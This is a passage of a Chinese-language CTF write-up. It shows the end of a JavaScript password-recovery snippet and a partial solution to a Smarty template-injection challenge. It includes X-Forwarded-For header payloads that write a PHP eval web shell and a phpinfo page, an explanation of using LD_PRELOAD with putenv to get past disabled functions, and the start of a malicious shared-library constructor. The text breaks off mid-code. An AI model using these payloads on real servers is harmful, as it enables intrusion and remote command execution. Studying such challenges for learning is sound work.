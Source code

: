 ```javascript
  ]);
  R.mem_map(r, 4096, uc.PROT_ALL),
  R.mem_write(r, stoh(e)),
  R.mem_map(m, 4096, uc.PROT_ALL);
  var o = t,
  u = t + o2.length;
  return R.emu_start(o, u, 0, 0),
  htos(R.mem_read(m, e.length))
}
function get_pw() {
  for (var e = stoh(atob(getBase64Image('templar'))), _ = '', t = 0; t < o3.length; t++) _ += String.fromCharCode(e[o3[t]]);
  return _
}
```

get_pw()可以直接运行出来

```
XYzaSAAX_PBssisodjsal_sSUVWZYYYb
```

呜呜呜不行啊真的不会

## smarty[unsolved]

是个php框架，模板注入，考虑请求头，在xff这里发现了模板注入。

构造语句可以写入文件。

```
X-Forwarded-For: {file_put_contents('/var/www/html/shell.php','<?php eval($_POST[shell]);')}
```

但是连接后发现，访问权限仅停留在web目录。

phpinfo看一下

```
X-Forwarded-For: {file_put_contents('/var/www/html/info.php','<?php phpinfo();')}
```

![](https://ww1.yunjiexi.club/2020/01/23/jSc0z.png)

（根据题解思路）

我们希望执行系统的一个程序，但是这些函数还不能用。

一个解决方法是使用LD_preload机制，配合`putenv()`函数。该函数可以更改系统的环境变量，而LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime  linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

因此我们要先生成一个恶意的动态链接库`.so文件`

```c
#define _GNU_SOURCE

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

extern char** environ;

__attribute__ ((__constructor__)) void preload (void)
{
    // get command line options and arg
    const char* cmdline = getenv("EVIL_CMDLINE");

    // unset environment variable LD_PRELOAD.
    // unsetenv("LD_PRELOAD") no effect on some 
```
